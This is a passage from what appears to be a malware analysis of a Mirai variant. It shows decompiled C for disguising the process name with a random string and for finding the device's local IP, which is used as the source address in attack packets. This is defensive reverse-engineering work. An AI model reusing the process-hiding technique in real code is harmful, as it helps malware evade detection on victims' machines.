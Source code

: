 ### Hiding the process name

The process name is also overwritten by an other random generated string.

```c
undefined4 mw_main(int param_1,undefined4 *param_2)

{
...
  uVar2 = mw_get_prng();
  iVar3 = mw_strlen((char *)*param_2);
  iVar4 = mw_strlen((char *)*param_2);
  iVar3 = mw_unsigned_modulo(uVar2,0x14 - iVar3);
  mw_xorshift128_str(auStack_5c,iVar3 + iVar4);
  auStack_5c[iVar3 + iVar4] = 0;
  mw_prctl(PR_SET_NAME,auStack_5c);
...
```

### `mw_get_local_ip`

`mw_get_local_ip` creates a UDP socket to 8.8.8.8:53 and uses `getsockname()` to determine the device's local IP address, which is used by the leaked version to ensure only a [single instance is running](https://github.com/jgamblin/Mirai-Source-Code/blob/3273043e1ef9c0bb41bd9fcdc5317f7b797a2a94/mirai/bot/main.c#L432) on the machine (in this variant there is no such check implemented) and as source address in the crafted attack packets.

```c
in_addr_t mw_get_local_ip(void)

{
  undefined4 *puVar1;
  int iVar2;
  sockaddr_in local_28;
  undefined4 local_18;
  
  local_18 = 0x10;
  puVar1 = (undefined4 *)mw_get_errno_location();
  *puVar1 = 0;
  iVar2 = mw_socket(2,2,0);
  local_28.sin_addr.s_addr = 0;
  if (iVar2 != -1) {
    local_28.sin_family._0_1_ = 2;
    local_28.sin_port._1_1_ = 0x35; // 53
    local_28.sin_addr.s_addr = 0x8080808; // 8.8.8.8
    local_28.sin_port._0_1_ = 0;
    local_28.sin_family._1_1_ = 0;
    mw_connect(iVar2,&local_28,0x10);
    mw_getsockname(iVar2,&local_28,&local_18);
    mw_close(iVar2);
  }
  return local_28.sin_addr.s_addr;
}
```
